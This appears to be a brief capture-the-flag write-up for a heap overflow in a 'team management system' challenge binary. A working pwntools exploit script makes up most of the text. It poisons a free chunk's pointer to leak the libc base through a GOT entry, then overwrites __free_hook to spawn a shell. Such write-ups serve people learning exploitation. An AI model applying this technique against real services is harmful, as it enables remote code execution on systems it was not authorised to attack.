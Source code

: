 The team management system is vulnerable to a heap overflow in the comments section. We can use that to overwrite metadata of other chunks. I used the overflow to modify the FD pointer of a free chunk and insert a fake chunk to a GOT entry in order to leak LIBC base. Then I used the same method to insert a fake chunk pointing to `__free_hook`, I overwritten it with the address of `system` function and I've got shell. Simple heap trick. 

```python
io = start()
p='Exit'
_sndal(p, '1')
_sndl(1)
_sndal(':', 'aa')
for i in range(5):
    _sndal(':', 123)

_sndal(p, '1')
_sndl(2)
for i in range(6):
    _sndal(':', 123)

_sndal(p, 3)
_sndl(1)
for i in range(5):
    _sndal(':', 123)
_sndal(':', pack(0x602028) * (100 + 0x100 / 8))
_sndal(p, 4)
_sndl(2)
_rcvu('comment: ')
libc = ELF('./libc-2.27.so')
libc.address = unpack(_rcvn(8)) - libc.symbols['puts']
log.info(hex(libc.address))

_sndal(p, 3)
_sndl(1)
for i in range(5):
    _sndal(':', 123)
_sndal(':', pack(libc.symbols['__free_hook']) * (100 + 0x100 / 8))

_sndal(p, 3)
_sndl(2)
for i in range(5):
    _sndal(':', 123)
_sndal(':', pack(libc.address + 0x4f322))

_sndal(p, 2)
_sndl(1)

io.interactive()

```
